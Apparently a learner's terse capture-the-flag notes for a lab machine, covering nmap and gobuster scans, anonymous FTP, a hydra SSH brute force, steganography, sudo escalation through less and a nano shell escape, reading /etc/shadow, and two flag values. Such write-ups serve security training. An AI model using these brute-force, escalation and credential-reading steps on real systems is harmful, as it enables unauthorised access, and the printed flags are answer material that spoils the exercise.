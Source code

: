 Webpage

- Source code --> clue that photo has steg hidden

Steg
- Photo reveals a password for user holt

NMAP
-ssh,ftp
- ftp server allows anonymous
- text file --> clue that jake has weak password

gobuster
gobuster -u 10.10.153.36 -w /home/aes18/Documents/CS/Tools/Kali/dirbuster/wordlists/directory-list-1.0.txt -x php,js,py,html,exe,zip,jpg,png,conf,db
- nothing

hydra 
- brute force ssh for user jake, password found quickly

foothold on  SSH

sudo -l --> usr/bin/less
/usr/bin/less /root/root.txt --> flag
63a9f0ea7bb98050796b649e85481845

cd /home 
cd jake 
cd holt --> flag ee11cbb19052e40b07aac0ca060c23ee

su holt --> password from before

sudo -l
/usr/bin/nano 

GTFOBins --> nano --> root 
sudo nano
^R^X
reset; sh 1>&0 2>&0

cat /etc/shadow --> amy hash

cd /var/www/html --> see photo.jpg
python3 -m http.server --> download photo.jpg 
stegseek --> "Stillnoob was here" -- rabbit hole





